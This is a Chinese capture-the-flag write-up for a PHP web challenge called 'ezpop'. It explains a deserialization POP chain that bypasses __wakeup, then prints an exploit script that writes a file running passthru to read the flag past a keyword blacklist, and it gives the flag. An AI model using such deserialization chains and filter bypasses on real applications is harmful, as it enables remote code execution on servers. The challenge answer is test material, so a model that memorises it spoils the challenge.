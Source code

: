 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入shell方法，此方法为抽象方法，在子类里实现，所以便进入evil的shell方法，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    protected $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract protected function shell();

    public function action() {
        $this->shell();
    }
}
class normal{
    function action(){
        echo "you must bypass it";
    }
}
class evil extends hack {
    protected $data;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
    }
    protected function shell(){        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/i',$this->data)){
            die("you die");
           }
        $dir = 'scandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
        if(!file_exists($dir)){
            mkdir($dir);
            echo $dir;
        }
        file_put_contents("$dir" . "hack.php", $this->data);
    }
}
$a=serialize(new Openfunc());
echo $a;
echo urlencode($a);
?>

```

